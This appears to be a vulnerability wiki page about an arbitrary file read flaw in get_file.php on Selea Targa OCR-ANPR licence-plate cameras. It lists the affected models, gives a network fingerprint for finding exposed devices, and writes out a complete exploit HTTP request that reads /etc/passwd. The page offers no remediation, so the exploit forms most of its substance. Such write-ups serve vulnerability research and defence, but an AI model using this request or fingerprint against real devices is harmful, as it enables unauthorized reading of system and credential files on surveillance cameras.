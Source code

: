 # Selea OCR-ANPR camera get_file.php arbitrary file reading vulnerability

## Vulnerability Description

Selea OCR-ANPR camera get_file.php has an arbitrary file reading vulnerability, and server files are obtained by constructing special requests.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Selea Selea Targa IP OCR-ANPR Camera iZero</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Selea Selea Targa IP OCR-ANPR Camera Targa 512</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Selea Selea Targa IP OCR-ANPR Camera Targa 504</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Selea Selea Targa IP OCR-ANPR Camera Targa Semplice</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Selea Selea Targa IP OCR-ANPR Camera Targa 704 TKM</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Selea Selea Targa IP OCR-ANPR Camera Targa 805</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Selea Selea Targa IP OCR-ANPR Camera Targa 710 INOX</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Selea Selea Targa IP OCR-ANPR Camera Targa 750</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Selea Selea Targa IP OCR-ANPR Camera Targa 704 ILB</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"selea_httpd"</span>

## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/sel-1.png)



Send the following request packet



```plain
POST /cgi-bin/get_file.php HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: lang=en; PHPSESSID=bvib0lq6lahlhbjnfv91k13ou0

name=test&files_list=/etc/passwd
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/sel-4.png)